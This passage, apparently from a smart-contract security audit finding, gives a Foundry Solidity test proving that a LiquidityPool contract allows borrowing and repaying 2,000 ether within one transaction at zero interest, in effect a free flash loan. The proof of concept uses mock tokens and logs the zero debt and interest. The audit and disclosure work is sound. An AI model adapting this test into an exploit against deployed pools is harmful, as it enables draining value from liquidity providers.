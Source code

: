 The following test demonstrates how an attacker can exploit this vulnerability by borrowing and repaying `2,000 ether` within the same transaction without incurring any fees or interest:

```solidity
// File: LiquidityPool.t.sol
// $ forge test --match-test="test_borrow_repay_sametx" --fork-url https://arb-sepolia.g.alchemy.com/v2/... -vvv
//
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {LiquidityPool} from "../contracts/LiquidityPool.sol";
import {MockERC20} from "../contracts/mock/MockERC20.sol";


contract LiquidityPoolTest is Test {

    function test_borrow_repay_sametx() public {
        address insurancePool = address(0x123);
        address marginAccountStorage = address(this);
        MockERC20 baseToken = new MockERC20("USDC Token", "USDC", 6);
        MockERC20 poolToken = new MockERC20("WETH Token", "WETH", 18);
        uint poolCapacity = 10_000 * 10 ** poolToken.decimals();

        LiquidityPool liquidityPool = new LiquidityPool(
            insurancePool,
            marginAccountStorage,
            baseToken,
            poolToken,
            "Liquidity Pool Token",
            "LPT",
            poolCapacity
        );
        //
        // 1. LP provide some tokens to the pool
        deal(address(poolToken), address(this), 20_000 ether);
        poolToken.approve(address(liquidityPool), 20_000 ether);
        liquidityPool.provide(9_000 ether);
        //
        // 2. Attacker obtains a borrow and repay in the same tx without pay any interest (flash loan for free)
        uint marginAccountID = 2;
        console.log("\nBorrow of 2_000 ether to marginAccountID=2");
        console.log("Total borrows before attack:  ", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        liquidityPool.borrow(marginAccountID, 2_000 ether);
        console.log("Total current borrows:        ", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        liquidityPool.repay(marginAccountID, 2_000 ether);
        assertEq(liquidityPool.portfolioIdToDebt(marginAccountID), 0);
        assertEq(liquidityPool.totalInterestSnapshot(), 0);
        console.log("Total borrows after repayment:", liquidityPool.totalBorrows());
        console.log("Total marginAccountID debt:   ", liquidityPool.getDebtWithAccruedInterest(marginAccountID));
        console.log("Total interest paid:          ", liquidityPool.totalInterestSnapshot());
    }
}
```
